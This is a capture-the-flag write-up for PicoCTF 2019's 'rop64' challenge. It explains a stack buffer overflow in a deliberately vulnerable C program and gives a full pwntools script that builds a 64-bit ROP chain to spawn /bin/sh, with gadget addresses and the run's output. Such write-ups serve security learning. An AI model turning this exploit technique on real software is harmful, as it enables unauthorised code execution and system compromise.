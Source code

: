 ```yaml
---
title: ROP 64 bits - execve syscall
description: Exploiting a buffer overflow and using ROP to call execve.
---
```


# ROP 64 bits - execve syscall

## Summary

Exploiting a buffer overflow and using ROP to call `execve`.

## Challenge

### Description

!!! note ""
    Challenge : `rop64` from PicoCTF 2019.

Time for the classic ROP in 64-bit. Can you exploit this [program](https://2019shell1.picoctf.com/static/8bda0ef23a9ca5c2f395a039006dd5f7/vuln) to get a flag?

### Source code

```c linenums="1"
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 16

void vuln() {
  char buf[16];
  printf("Can you ROP your way out of this?\n");
  return gets(buf);

}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  
}
```

## Writeup

As you can see, we can exploit a buffer overlow on the `gets(buf)` function.

The goal here is to call `execve` with the argument `/bin/sh`.

```
int execve(const char *filename, char *const argv[], char *const envp[]);
```

To do this we can look up at the [syscalls list](https://syscalls.w3challs.com/?arch=x86_64) for x86_64 architecture. The function `execve` is the number `59` and takes 3 arguments. In 64 bits architecture, arguments are passed via registers.

**Goal :** 
```
rax = 0x3b      ; 'execve' syscall id, 0x3b = 59
rdi = /bin/sh   ; Pointer to "/bin/sh" string in memory.
rsi = 0         ; No argument
rdx = 0			; No argument

Then, execute syscall.
```

To find the **padding** of the buffer overflow, I use the `cyclic` and `find_cyclic` functions of the pwntools library.

To set `rax` (or another register to a specified value) to `0x3b` we can use two methods :

1. Using the stack :
	1. `push 0x3b`, add `0x3b` on the stack
	2. `pop rax`, pop `0x3b` into `rax`
2. Using bitwise operations :
	1. `xor rax, rax`, set `rax` to 0
	2. `add rax, 3`, add 3 to `rax` (repeat this 19 times, 19*3=57)
	3. `add rax, 2`, add 2 to `rax` (57+2 = 59 = 0x3B).

To set `rsi` and `rdx` to 0, we will use the stack.

To set `rdi` to a pointer of the `/bin/sh` string in memory, we need to find a writable address. Inside `gdb`, we can use the `vmmap` command to show the range of addresses that are writable. In our case, we will use the first writable address, `0x00000000006b6000`.

```
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x00000000006b6000 0x00000000006bc000 0x00000000000b6000 rw- /home/.../rop64/vuln
```

We will use the instruction `mov qword ptr [rax], rdx` to write `/bin/sh` into `0x00000000006b6000`, with `rax` equals to `0x00000000006b6000` and `rdx` to `/bin/sh`.

To find all the gadgets addresses, I use [ropper](https://github.com/sashs/ropper).

```bash
$ ropper -f vuln --search 'pop rdx; ret;'
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdx; ret;

[INFO] File: vuln
0x000000000044bf16: pop rdx; ret;
```

We are now able to write our python solver script.

**Source code (solve.py) :**

```python
#!/usr/bin/env python3
from pwn import process, p64, cyclic, cyclic_find, log

# context
PROGRAM = "./vuln"

def find_padding_size():
    proc = process(PROGRAM)
    pattern = cyclic(32)

    proc.sendlineafter(b"Can you ROP your way out of this?\n", pattern)
    proc.wait()

    core = proc.corefile
    seg_addr = int(f"0x{hex(core.fault_addr)[-8:]}", 16)

    return cyclic_find(seg_addr)


"""
0x0000000000444c50: xor rax, rax; ret;
0x00000000004749c0: add rax, 1; ret;
0x00000000004749b7: add rax, 2; ret;
0x00000000004749d0: add rax, 3; ret;

0x000000000048d341: mov qword ptr [rax], rdx; ret;

0x00000000004156f4: pop rax; ret;
0x0000000000400686: pop rdi; ret;
0x00000000004100d3: pop rsi; ret;
0x000000000044bf16: pop rdx; ret;

0x000000000040123c: syscall;
"""

# padding size
padding_size = find_padding_size()
log.info(f"Padding size : {padding_size}")

# gadgets
xor_rax   = p64(0x0000000000444c50)
add_rax_2 = p64(0x00000000004749b7)
add_rax_3 = p64(0x00000000004749d0)
pop_rax   = p64(0x00000000004156f4)
pop_rdi   = p64(0x0000000000400686)
pop_rsi   = p64(0x00000000004100d3)
pop_rdx   = p64(0x000000000044bf16)
bin_sh    = b"/bin/sh\x00"
syscall   = p64(0x000000000040123c)
writable_memory = p64(0x00000000006b6000)
write_memory_into_rax = p64(0x000000000048d341)

# padding
buf = b"A" * padding_size

# write "/bin/sh" string into memory
buf += pop_rdx
buf += bin_sh
buf += pop_rax
buf += writable_memory
buf += write_memory_into_rax

# set rax to '0x3b' (execve syscall id)
"""
buf += pop_rax
buf += p64(0x3b)
"""
buf += xor_rax
buf += add_rax_3 * 19
buf += add_rax_2 * 1

# set 'rdi' to '/bin/sh' address pointer
buf += pop_rdi
buf += writable_memory

# set 'rsi' to 0 
buf += pop_rsi
buf += p64(0)

# set 'rdx' to 0
buf += pop_rdx
buf += p64(0)

# syscall
buf += syscall

proc = process(PROGRAM)
proc.sendlineafter(b"Can you ROP your way out of this?\n", buf)
proc.interactive()
```

**Execution :**

```bash
$ python3 solve.py
[+] Starting local process './vuln': pid 14552
[*] Process './vuln' stopped with exit code -11 (SIGSEGV) (pid 14552)
[+] Parsing corefile...: Done
[*] '/home/.../rop64/core.14552'
    Arch:      amd64-64-little
    RIP:       0x400b6e
    RSP:       0x7ffcdaa49cd8
    Exe:       '/home/.../rop64/vuln' (0x400000)
    Fault:     0x6161616861616167
[*] Padding size : 24
[+] Starting local process './vuln': pid 14566
[*] Switching to interactive mode
$ id
uid=1000(xanhacks) gid=1000(xanhacks) groups=1000(xanhacks),995(audio),998(wheel)
```